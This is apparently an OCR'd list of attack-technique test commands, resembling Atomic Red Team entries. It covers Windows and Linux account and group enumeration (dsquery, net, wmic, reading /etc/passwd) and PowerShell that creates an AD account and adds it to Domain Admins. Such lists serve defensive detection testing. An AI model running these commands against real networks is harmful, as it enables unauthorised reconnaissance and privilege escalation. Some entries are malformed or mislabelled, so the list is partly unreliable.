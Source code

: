 cmd.exe /c dsquery * OU="Domain Admins",dc=domain,dc=com -scope base -attr SAMAccountName userPrincipleName Description
cmd.exe /c dsquery * -filter "(&(objectCategory=contact)(objectCategory=person)(mail=*)(objectClass=user))" -Attr samAccountName mail -Limit 0
cmd.exe /c dsquery * -filter "(&(objectCategory=group)(name=*Admin*))" -Attr name description members
* Net.exe localgroup "administrators"
* Net.exe group "domain admins" /domain
* Net.exe user * /domain
* wmic.exe useraccount get /ALL
* wmic.exe useraccount list
* wmic.exe qfe get description,installedOn /format:csv
* wmic.exe process get caption,executablepath,commandline
* wmic.exe service get name,displayname,pathname,startmode
* wmic.exe share list
* wmic.exe /node:"192.168.0.1" service where (caption like "%sql server (%")
* wmic.exe get-wmiobject -class "win32_share" -namespace "root\CIMV2" -computer "targetname"
* nltest.exe
* powercmd.exe /c/management/get_domain_sid
* powercmd.exe /c/management/sid_to_user
* powercmd.exe /c/management/user_to_sid
* Atomic Test #4 - Show if a user account has ever logger in remotely
* lastlog > #{output_file}
* id
* groups
* cat /etc/passwd > #{output_file}
* Atomic Test #1 - Enumerate all accounts
* lsof $USER
* Atomic Test #5 - Enumerate users and groups
* username=$(echo $HOME | awk -F'/' '{print $3}') && lsof -u $username
* Atomic Test #3 - View accounts with UID 0
##T1098: Account Manipulation
* $x = Get-Random -Minimum 2 -Maximum 99
$y = Get-Random -Minimum 2 -Maximum 99
$z = Get-Random -Minimum 2 -Maximum 99
$w = Get-Random -Minimum 2 -Maximum 99

Import-Module ActiveDirectory
$account = "#{account_prefix}-$x$y$z"
New-ADUser -Name $account -GivenName "Test" -DisplayName $account -SamAccountName $account -Surname $account -Enabled:$False #{create_args}
Add-ADGroupMember "Domain Admins" $account
* $x = Get-Random -Minimum 2 -Maximum 99
$y = Get-Random -Minimum 2 -Maximum 99
$z = Get-Random -Minimum 2 -Maximum 99
$w = Get-Random -Minimum 2 -Maximum 99

Import-Module ActiveDirectory
$account = "#{account_prefix}-$x$y$z"
New-ADUser -Name $account -GivenName "Test" -DisplayName $account -SamAccountName $account -Surname $account -Enabled:$False 
Add-ADGroupMember "1010" $account
* $x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHa_$x$y$z
